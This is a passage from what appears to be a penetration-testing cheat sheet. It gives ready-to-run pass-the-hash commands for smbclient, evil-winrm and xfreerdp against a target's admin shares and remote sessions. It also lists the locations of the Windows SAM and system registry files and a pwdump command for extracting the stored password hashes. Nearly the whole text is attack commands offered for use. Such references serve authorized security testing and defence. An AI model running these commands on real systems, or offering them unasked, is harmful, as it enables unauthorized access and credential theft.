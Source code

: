 ```
smbclient //$targetip/C$ -U "$targetuser" --pw-nt-bash $hash
```

#### RDP PTH

By using evil-winrm [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

```
evil-winrm -u "$targetuser" --hash $hash -i $targetip
```

By using freerdp-x11

```
apt-get install freerdp-x11
xfreerdp /u:admin /d:win7 /pth:hash:hash /v:$targetip
```

## Misc: Windows Password check in SAM

You can check two fundamental files from Windows, system registry and SAM registry.

```
Systemroot can be windows
%SYSTEMROOT%\repair\SAM
windows\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM

System file can be found here
SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\RegBack\system
```

Then extract the hashed password

```
pwdump system sam
```





